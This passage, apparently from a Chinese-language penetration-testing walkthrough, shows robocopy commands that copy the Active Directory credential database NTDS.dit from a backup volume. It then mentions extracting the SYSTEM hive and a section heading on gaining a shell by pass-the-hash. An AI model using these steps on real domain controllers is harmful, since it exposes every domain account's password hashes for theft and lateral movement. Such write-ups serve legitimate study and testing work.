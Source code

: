 将备份 ntds.dit 文件移动到我的临时文件夹

```plain
cd Z:
cd windows
cd ntds
robocopy /b .\ C:\temp NTDS.dit
```

[![](assets/1706771835-f0915f6165640a07acb79bbb6c5cc7b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129103409-e19d9930-be4e-1.png)

获取 ntds.dit 文件后，从注册表中获取 SYSTEM 文件

[![](assets/1706771835-0229c96c4d15d8eb32d3ea3e492ad6ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129103417-e67b4ac4-be4e-1.png)

## 通过哈希传递攻击获取 Shell
